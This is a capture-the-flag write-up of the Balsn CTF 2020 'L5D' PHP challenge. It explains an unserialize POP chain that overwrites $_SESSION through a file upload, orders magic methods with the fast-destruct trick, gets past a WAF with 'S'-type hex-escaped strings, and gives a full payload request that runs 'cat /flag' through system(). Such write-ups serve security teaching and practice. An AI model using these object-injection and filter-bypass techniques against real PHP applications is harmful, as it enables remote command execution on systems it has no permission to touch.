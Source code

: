 # Balsn CTF 2020 

# L5D

- Difficulty: ★★
- Type: Web
- Solved: 17 / 490
- Tag: Warmup, PHP, Unserialize, POP chain

## Description

「Taking L5D was a profound experience, one of the most important things in my life.」

Try this new Unserialize-Oriented Programming System a.k.a. L5D !

http://l5d.balsnctf.com:12345/index.php

PHP Version: 7.0.33

Author: kaibro


## Source Code

- [L5D](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2020/L5D/src/)


## Solution


In this challenge, there are 5 classes that contain some magic methods like `__construct`, `__destruct`.

And we have a arbitrary unserialize entry point:

```php
$wtf = waf($_GET{'?'}) ? $_GET['?'] : (finalize() && die("Nice try!"));
if($goodshit = @unserialize($wtf)) {
    $is_unser_finished = true;
}
```

So our target is to chain these classes' magic method to read the `/flag` file.

And most of the classes didn't have any property (only global variable), so it is hard to do pop chain (Property Oriented Programming) exploit.

But we can use `Array` to chain these classes together, like this:

```
Array(classA, classB, classC, ...);
```

It will unserialize multiple classes at the same time, and then the magic methods of these classes will be called.

Next, we should find a path to read flag.

The `L5D_Command` class is an attractive target, its `__destruct()` will run system command with global variable `cmd`.

And the `L5D_ResetCMD` class can reset the `cmd` variable by `new_cmd` property, but we should set our `$_SESSION['name']` to `wubalubadubdub` first:

```php
if($_SESSION['name'] === 'wubalubadubdub') {
    $cmd = $this->new_cmd;
}
```

In `L5D_Login` class, you can set the right session name, but you need to know the flag content first. It is impossible. We should find another way to exploit.

Let's take a look at the `L5D_Upload` class, this class has an obvious variable override vulnerability:

```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

We can overwrite any global variable to a file array (with some information that we uploaded).

So we can use this vulnerability to override the `$_SESSION` variable by upload a file with key `_SESSION`.

And everybody knows that `$_FILES`'s value looks like:

```
Array('name' => 'xxx', 'tmp_name' => 'xxx', 'size' => 'xxx' ...)
```

It can just overwrite the `$_SESSION['name']`, and the `name` is our uploaded filename!

(Note: you should upload a valid image file, or it will call `finalize()` to destroy your `$_SESSION` and `$cmd`)

So final exploit chain is:

1. `L5D_Upload` overwrite `$_SESSION['name']` to `wubalubadubdub`
2. `L5D_ResetCMD` reset `$cmd` to `cat /flag`
3. `L5D_Command` call `system($cmd)`

But there is still a small problem, lots of `__wakeup()` function will destroy your session or some important global variable in the process of unserialization. These variables will make your exploit failed.

An easy way to control order of `__wakeup()` and `__destroy()` is to use the [Fast Destruct](https://github.com/ambionics/phpggc#fast-destruct) trick.
It means that if you define two same key in an array, the first one object will be destroyed (it will call `__destroy()`) in the process of deserilization.
So you don't need to wait until the program ends to call `__destroy()`.

Finally, one of a valid exploit chain looks like this:

```
Array(0=>L5D_Command, 1=>L5D_ResetCMD, 2=>L5D_Upload, 2=>L5D_SayMyName, 3=>L5D_Login, 3=>L5D_SayMyName, 1=>L5D_SayMyName)
```

I use a useless `L5D_SayMyName` class to destroy other object with same key.

So the executing order of above exploit chain is:

1. `L5D_Command` wakeup
2. `L5D_ResetCMD` wakeup
3. `L5D_Upload` wakeup
4. `L5D_SayMyName` wakeup and `L5D_Upload` destroy
5. `L5D_Login` wakeup
6. `L5D_SayMyName` wakeup and `L5D_Login` destroy
7. `L5D_SayMyName` wakeup and `L5D_ResetCMD` destroy
8. Program End
9. `L5D_Command` destroy and other `L5D_SayMyName` destroy

And the final part, `waf()` function will block `*` character.
We should bypass this restriction to control the `$new_cmd` variable in `L5D_ResetCMD` class.

There is a small [trick](https://github.com/ambionics/phpggc#ascii-strings) can help us. If we change the type specifier of string from `s` to `S`, then we can use `\xx` hex representation in serialization data.

`s:10:"%00*%00new_cmd"` => `S:10:"\00\2A\00new_cmd%"`

Final payload:

```
POST /?%3f=a:7:{i:0;O:11:%22L5D_Command%22:0:{}i:1;O:12:%22L5D_ResetCMD%22:1:{S:10:%22%5C00%5C2A%5C00new_cmd%22;s:9:%22cat%20/flag%22;}i:2;O:10:%22L5D_Upload%22:0:{}i:2;O:13:%22L5D_SayMyName%22:0:{}i:3;O:9:%22L5D_Login%22:0:{}i:1;O:13:%22L5D_SayMyName%22:0:{}i:3;O:13:%22L5D_SayMyName%22:0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Content-Type: multipart/form-data; boundary=---------------------------133915844616073813622061755521
Content-Length: 840
Cookie: PHPSESSID=dq2t165cscptkm24vb57e5f872
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="l5d_file"; filename="php.jpg"
Content-Type: image/jpeg

{IMAGE DATA}
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: image/jpeg

aaa
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------133915844616073813622061755521--
```

(Note: This is not the only one exploit chain :D)

<br>
<br>


BTW

Actually, this is just a warmup challenge compared to other web challenge.

But some china teams said this challenge is too easy in the feedback.

Maybe I should prepare a more complex (or harder) warmup challenge next year XD? (flee


## Writeups

- [The Flat Network Society
](https://github.com/TFNS/writeups/tree/master/2020-11-14-BalsnCTF/l5d)
- [Super Gusser](https://github.com/Super-Guesser/ctf/tree/master/BalsnCTF2020/web/L5D)
- [安全客](https://www.anquanke.com/post/id/222675#h2-1)
